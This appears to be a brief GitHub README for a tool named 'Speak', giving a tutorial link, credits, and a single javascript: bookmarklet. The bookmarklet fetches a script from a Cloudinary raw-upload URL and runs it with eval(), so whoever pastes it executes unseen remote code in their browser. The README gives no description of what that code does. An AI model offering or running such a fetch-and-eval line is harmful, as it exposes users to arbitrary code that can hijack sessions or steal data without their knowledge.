 Tutorial : https://youtu.be/0XkH_GcDjVk

# Speak 

```javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))
```
## Credits:
[@Flowings](https://github.com/flowingsalt)
